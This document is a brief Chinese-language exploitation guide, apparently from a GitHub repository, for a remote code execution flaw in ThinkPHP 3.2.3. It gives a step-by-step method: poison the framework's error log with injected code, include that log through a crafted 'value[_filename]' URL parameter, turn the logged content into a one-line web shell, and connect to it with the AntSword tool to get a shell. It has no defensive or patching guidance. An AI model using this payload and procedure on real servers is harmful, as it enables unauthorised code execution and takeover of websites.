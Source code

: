 # TinkPHP3.2.3 RCE漏洞利用
- 通过报错判断出框架版本

![image](https://user-images.githubusercontent.com/71583369/154673738-59bda70b-f2e5-4027-96fa-6b9ffe6586fa.png)

- 抓取数据包插入代码使其报错

![image](https://user-images.githubusercontent.com/71583369/154674368-e4991795-61a1-493b-a7f0-cbf4c05dd1af.png)

- 日志存放路径Application/Runtime/Logs/Common，报错信息会存放到日志中。
- 构造payload

```
后面的日期根据实际情况进行修改
http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_14.log
```
- 随后我们写入的代码会被执行

![image](https://user-images.githubusercontent.com/71583369/154675181-0800ca89-82ea-408c-a83e-b80dc2c5cfe3.png)

- 对报错内容进行修改成一句话

![image](https://user-images.githubusercontent.com/71583369/154675381-3fa470fd-91f2-43e2-a2de-915bb4bd44d4.png)

- 使用蚁剑进行连接getshell。


